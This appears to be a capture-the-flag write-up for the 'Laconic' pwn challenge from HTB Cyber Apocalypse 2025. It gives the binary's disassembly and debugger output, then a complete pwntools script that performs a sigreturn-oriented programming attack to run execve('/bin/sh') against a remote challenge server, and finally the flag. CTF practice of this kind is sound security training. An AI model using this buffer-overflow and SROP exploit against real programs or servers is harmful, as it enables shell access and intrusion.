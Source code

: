 ```yaml
---
title: Laconic
date: 2025-03-29T18:36:19+02:00
description: Writeup for Laconic [HTB Cyber Apocalypse CTF 2025]
type: writeup
author: sunbather
tags:
- pwn
- srop
draft: false
---
```

___

## Challenge Description

Sir Alaric's struggles have plunged him into a deep and overwhelming sadness, leaving him unwilling to speak to anyone. Can you find a way to lift his spirits and bring back his courage?

## Intuition

Super small binary, written directly in assembly. Here is the disassembly:

```
$ objdump -d laconic -M intel

laconic:     file format elf64-x86-64


Disassembly of section .shellcode:

0000000000043000 <__start>:
   43000:	48 c7 c7 00 00 00 00 	mov    rdi,0x0
   43007:	48 89 e6             	mov    rsi,rsp
   4300a:	48 83 ee 08          	sub    rsi,0x8
   4300e:	48 c7 c2 06 01 00 00 	mov    rdx,0x106
   43015:	0f 05                	syscall 
   43017:	c3                   	ret    
   43018:	58                   	pop    rax
   43019:	c3                   	ret    
```

The `syscall` instruction is executing a read (`rax = 0x0`, you can see it dynamically). Size of read is `0x106` and target is `rsp` according to `mov rsi,rsp`.

So obviously this is a buffer overflow as I can immediately write the return addresses. Size is huge `0x106` so we can perform SROP. Let's debug to find everything:

```
$ gdb laconic -q
pwndbg> start
[...]
pwndbg> search "/bin/sh"
Searching for value: '/bin/sh'
laconic         0x43238 0x68732f6e69622f /* '/bin/sh' */
```

Additionally we have the addresses for a few gadgetsa in the initial `objdump`:

- `pop rax` -- `0x43018`
- `syscall` -- `0x43015`

## Solution

Script is quite simple, just classic SROP.

```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./laconic")
target = remote("83.136.251.145", 30750)

sh_addr = 0x43238
syscall_gadget = 0x43015
pop_rax = 0x43018

frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

payload = b"a" * 8 + p64(pop_rax) + p64(15) + p64(syscall_gadget) + bytes(frame)

target.send(payload)
target.interactive()
```

### Flag

`HTB{s1l3nt_r0p_SOME_UNIQUE_ID}`

